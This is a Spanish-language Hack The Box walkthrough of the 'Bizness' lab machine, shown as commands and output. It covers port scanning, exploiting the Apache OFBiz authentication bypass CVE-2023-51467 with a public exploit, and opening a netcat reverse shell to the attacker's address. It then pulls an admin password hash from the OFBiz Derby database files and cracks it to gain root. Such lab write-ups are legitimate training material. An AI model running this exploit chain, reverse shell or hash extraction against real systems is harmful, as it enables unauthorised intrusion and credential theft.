

Hack The Box
Maquina: Bizness
Objetivo: Vulnerar la maquina y conseguir ser root ( Privilegios de administrador)
Dificultad: Facil
Fase 1: Escaneo de puertos
Con nmap haremos un escaneo con la ip que nos proporciona htb para ver que puertos tiene abiertos y esta utilizando la maquina.
$ nmap -sV 10.10.11.252
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-02 05:32 CEST
Nmap scan report for bizness.htb (10.10.11.252)
Host is up (0.050s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp open http nginx 1.18.0
443/tcp open ssl/http nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Esta utilizando el puerto 80, asi que tiene una pagina web activa.
Intente utilizar varias veces la herramienta que utilice en la maquina devvortex pero me daba un error asi que probe "dirbuster" que es una alternativa y busque los directorios ocultos y uno me llamo la atencion... se llamaba "control/login", al tener el nombre de login supuse que seria el login de la pagina.
(pingu㉿kaliPingu)-[~]
└─$ dirbuster -u https://bizness.htb
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: / - 200
Dir found: /control/login/ - 200
Y lo era!

Probe las tipicas contraseñas como "admin" "root" pero nada... y me fije arriba que ponia : OFBizz
Busque en google y formaba parte de apache, el sistema de host de linux y tras buscar una vulnerabilidad encontre una llamada : CVE-2023-51467
Esta vulnerabilidad permite a los atacantes y eludir los procesos de autenticación,permitiendo ejecutar codigo.... asi que era perfecto!
En el siguiente enlace de google tenia ya el repositorio github!
https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass
Con el comando "git clone" copiaremos el repositorio y comprobaremos que lo tenemos todo dentro dela carpeta.
(pingu㉿kaliPingu)-[~/Escritorio]
└─$ git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass
Clonando en 'Apache-OFBiz-Authentication-Bypass'...
remote: Enumerating objects: 19, done.
remote: Counting objects: 100% (14/14), done.
remote: Compressing objects: 100% (12/12), done.
remote: Total 19 (delta 3), reused 7 (delta 1), pack-reused 5
Recibiendo objetos: 100% (19/19), 51.44 MiB | 12.47 MiB/s, listo.
Resolviendo deltas: 100% (3/3), listo.
┌──(pingu㉿kaliPingu)-[~/Escritorio]
└─$ cd Apache-OFBiz-Authentication-Bypass
┌──(pingu㉿kaliPingu)-[~/Escritorio/Apache-OFBiz-Authentication-Bypass]
└─$ ls
exploit.py README.md xdetection.py ysoserial-all.jar
Vayamos por partes, como dijo jack el destripador:
Primero nos pondremos en escucha por el puerto 444
(root㉿kaliPingu)-[/home/pingu/Escritorio/Apache-OFBiz-Authentication-Bypass]
└─# nc -lvnp 4444
Iremos a otra terminal dejando esa en escucha.
En esta nueva terminal ejecutarmeos el exploit con el comando como nos explica en el repositorio github pero añadiremos un extra.
Desde la web https://www.revshells.com crearemos un comando para la reversell poniendo nuestra ip ( la que nos proporciona la VPN de HTB y) y elpuerto 4444 y copiaremos el comando y lo pondremos al final entre las comillas.
─(root㉿kaliPingu)-[/home/pingu/Escritorio/Apache-OFBiz-Authentication-Bypass]
└─# python3 exploit.py --url https://bizness.htb --cmd 'nc -c sh 10.10.14.13 4444'
[+] Generating payload...
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.
Ahora iremos a la otra ventana de la terminal con el puerto en escucha 444 y podremos escrbir id y veremos que estaremos dentro.ponemos el comando para indicarle la bash y asi trabajar mas comodos!
script /dev/null -c /bin/bash
Ahora nos moveremos por los directorios hacia atras usando los ".." y iremos a la carpeta del usuario ofbiz y haremos cat con el archivo y veremos la bandera.
ofbiz@bizness:/opt/ofbiz$ ls
ls
APACHE2_HEADER DOCKER.md INSTALL runtime
applications docs lib SECURITY.md
build framework LICENSE settings.gradle
build.gradle gradle NOTICE themes
common.gradle gradle.properties npm-shrinkwrap.json VERSION
config gradlew OPTIONAL_LIBRARIES
docker gradlew.bat plugins
Dockerfile init-gradle-wrapper.bat README.adoc
ofbiz@bizness:/opt/ofbiz$ cd ..
cd ..
ofbiz@bizness:/opt$ ls
ls
ofbiz
ofbiz@bizness:/opt$ cd ..
cd ..
ofbiz@bizness:/$ ls
ls
bin home lib32 media root sys vmlinuz
boot initrd.img lib64 mnt run tmp vmlinuz.old
dev initrd.img.old libx32 opt sbin usr
etc lib lost+found proc srv var
ofbiz@bizness:/$ cd home
cd home
ofbiz@bizness:/home$ ls
ls
ofbiz
ofbiz@bizness:/home$ cd ofbiz
cd ofbiz
ofbiz@bizness:~$ ls
ls
user.txt
ofbiz@bizness:~$ cat user.txt
cat user.txt
Ya tenemos la primera bandera! ahora vamos a por la segunda 😄
Dentro del directorio "/opt/ofbiz/framework/resources/templates" Tendremos
un archivo llamado AdminUserLoginData.xml y tras leerlo con cat veremos un codigo con "SHA" significa que la contraseña esta encripatada y tendremos que desencripatarla, pero esa no es la que necesitamos!
Iremos a la direccion : /opt/ofbiz/runtime/data/derby/ofbiz/seg0 y aqui veremos con "ls" muchisimos archivos , pues con grep filtraremos para ver todo lo que contiene SHA y strings.
ofbiz@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0$ strings * | grep SHA
strings * | grep SHA
SHA-256
MARSHALL ISLANDS
SHAREHOLDER
SHAREHOLDER
<eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
Y.. BINGO! ya tenemos el sha bueno, ahora toca desencriparlo
Utilizaremos una herramienta que he encontrado en github
https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker
Con git clone copiaremos el repositorio en el escritorio y usaremos esa clave para descifrar la contraseña.
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
# python3 OFBiz-crack.py --hash-string '$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I' wordlist /home/pingu/Escritorio/Diccionarios/rockyou.txt
[+] Attempting to crack....
Found Password: monkeybizness
hash: $SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
(Attempts: 1478438)
[!] Super, I bet you could log into something with that!
Como veremos la contraseña es monkeybizness asi que haremos el comando su root y pondremos la contraseña, luego iremos a "cd /root " y con ls veremos la ultima bandera.
root@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0# cd /root
cd /root
root@bizness:~# ls
ls
root.txt
root@bizness:~# cat root.txt
cat root.txt
Conclusion: La verdad es que esta maquina ha requerido mas busquedas en internet, sobretodo para descifrar la clave del sha, por que la primera que descubrimos no es y hay que buscar mas a fondo en los archivos de la carpeta, pero al final ayudandonos de google ( que para eso esta) conseguimos sacarla.
Una maquina que me ha gustado mucho por el uso del descifrado de contraseñas!